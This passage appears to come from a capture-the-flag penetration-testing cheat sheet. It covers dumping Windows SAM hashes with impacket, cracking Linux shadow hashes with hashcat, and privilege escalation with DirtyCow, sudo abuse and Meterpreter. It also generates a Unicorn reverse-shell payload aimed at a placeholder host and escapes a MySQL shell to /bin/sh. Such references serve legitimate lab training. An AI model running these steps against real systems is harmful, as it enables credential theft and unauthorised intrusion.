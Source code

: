   ```
  SAM  SYSTEM
  root@kali:~/CTF/Backup_dump# impacket-secretsdump -sam SAM -system SYSTEM local
  Impacket v0.9.20 - Copyright 2019 SecureAuth Corporation

  [*] Target system bootKey: 0x8b56b2cb5033d8e2e289c26f8939a25f
  [*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
  Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
  User:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
  [*] Cleaning up... 
  ```
* If we able to extract /etc/passwd and /etc/shadow file we can use
  * Command : `unshadow <PASSWD> <SHADOW>`
  * Use Hashcat to crack the password, here 500 is for format `$1$` Replace it accordingly.
  ```
  hashcat -m 500 -a 0 -o cracked.txt hashes.txt /usr/share/wordlists/rockyou.txt --force
  ```
  
## Privilige Escalation
* [Linux Priv Checker](https://github.com/sleventyeleven/linuxprivchecker)
* [Lin Enum Script](https://github.com/rebootuser/LinEnum)
* [Unix Priv Check](https://github.com/pentestmonkey/unix-privesc-check)
* To Use DirtyCow : [Link](https://dirtycow.ninja/) -- Maybe more specifically : [Dirty.c](https://github.com/FireFart/dirtycow/blob/master/dirty.c)
* Trick to paste code in VI, with format on remote machines `set paste`
* Try `sudo -l` to check what can be run with no-password.
* For windows:
  * In meterpreter shell try `getsystem`
  * In meterpreter shell try `background` and then follow rest of commands...
  * search suggester
  * `use post/multi/recon/local_exploit_suggestor` (Example only)
  * `show options`
  * `set session 1`
  * `run`
  * If worked fine, else Try follow rest of commands...
  * Use this link: [FuzzySec Win Priv Exec](https://www.fuzzysecurity.com/tutorials/16.html)
  * Use this method: [Sherlock](https://github.com/rasta-mouse/Sherlock)
  * If current process doesnt own Privs, use `migrate <PID>` to get more Priviliges in Meterpretor.
* For Linux:
  * If `sudo -l` gives something like this...
  ```
  User www-data may run the following commands on bashed:
    (enemy : enemy) NOPASSWD: ALL
  ```
  We can try like below
  ```
  $ sudo -u enemy /bin/bash
  id
  uid=1001(enemy) gid=1001(enemy) groups=1001(enemy)
  ```
* To get Shell on Windows use [Unicorn](https://github.com/trustedsec/unicorn.git)
  ```
  root# /opt/unicorn/unicorn.py windows/meterpreter/reverse_tcp <HOST_IP> 3333 
  [*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
  root# msfconsole -r unicorn.rc 
  [*] Started reverse TCP handler on <HOST_IP>:3333 
  msf5 exploit(multi/handler) >         
  ```
* Get Shell from MYSQL
  ```
  mysql> \! /bin/sh
  ```
  